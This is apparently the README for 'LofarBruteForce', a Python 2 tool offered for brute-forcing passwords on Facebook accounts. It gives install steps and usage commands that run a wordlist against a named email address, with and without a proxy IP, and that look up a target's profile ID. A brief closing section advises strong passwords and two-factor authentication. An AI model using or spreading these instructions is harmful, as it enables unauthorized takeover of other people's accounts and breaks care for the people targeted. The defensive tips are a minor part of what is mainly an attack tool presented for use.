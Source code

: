      SCRIPT: LofarBruteForce

     JOB: Brute Force Attack On Facebook Accounts

     SCRIPT ScreeenShot:
        Usage:
        Brute Force On Facebook Account Without proxy:
        Command: python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt
        
        Brute Force On Facebook Account With Proxy:
        python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt -p 144.217.101.245:3129
        
        
        Get Target Facebook Profile ID:
        python2 LofarBruteForce.YS -g https://www.facebook.com/zuck 
        
     
     # For Install
       git clone https://github.com/MuhammadYousuf813/LofarBruteForce

       cd LofarBruteForce/

       pip install requests

       pip install mechanize

       pip2 install requests

       pip2 install mechanize


     # Supported Platforms:
       1) Windows
       2) Linux
       3) Android~Termux
       4) MacOs
       5) any Os has python(2.x, 3.x) with required modules

     # Protect yourself from this attack:
  Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10 letters

  don't use your basic information in the password for example don't use your name or birthday

  because the hacker can do a information gathering attack and get this information easily

  then he will generate a wordlist based on this info.

  Use 2F Authentication.
